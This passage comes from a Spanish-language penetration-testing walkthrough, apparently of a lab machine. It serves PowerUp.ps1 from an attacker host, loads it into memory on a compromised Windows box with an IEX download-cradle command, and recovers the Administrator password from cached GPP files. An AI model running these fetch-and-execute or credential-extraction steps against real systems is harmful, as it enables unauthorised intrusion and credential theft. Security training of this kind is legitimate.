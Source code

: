 <figure><img src="../../../.gitbook/assets/1006_vmware_ziqzb1DHqN.png" alt=""><figcaption></figcaption></figure>

Modificaremos el script y en la última línea añadiremos (Invoke-AllChecks) para así obtener toda la información de posibles vectores para escalar privilegios.

Nos montaremos un servidor web con Python para compartir dicho script y des de la terminal donde hemos ganado acceso al equipo, procederemos a ejecutar el script que tenemos alojado en nuestra Kali importándolo en memoria con IEX.

Así obtendremos un reporte completode vulnerabilidades potenciales y configuraciones inseguras que podemos aprovechar.

{% code overflow="wrap" %}
```bash
catnp PowerUp.ps1| tail -n 1

python3 -m http.server 80

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.13/PowerUp.ps1')
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/1008_vmware_bUCv0ayc4j.png" alt=""><figcaption></figcaption></figure>

### Cached GPP Files

En el resultado del escaneo con **PowerUp.ps1** comprobamos que tenemos el privilegio de (SeImpersonatePrivilege) lo que podríamos directamente impersonar al usuario "Administrator".

Y también vemos que ha encontrado un archivo .xml dentro del equipo en el cual disponía de las credenciales GPP del usuario Administrator, ya nos hace el (gpp -decrypt) y nos aparece la contraseña en texto plano.

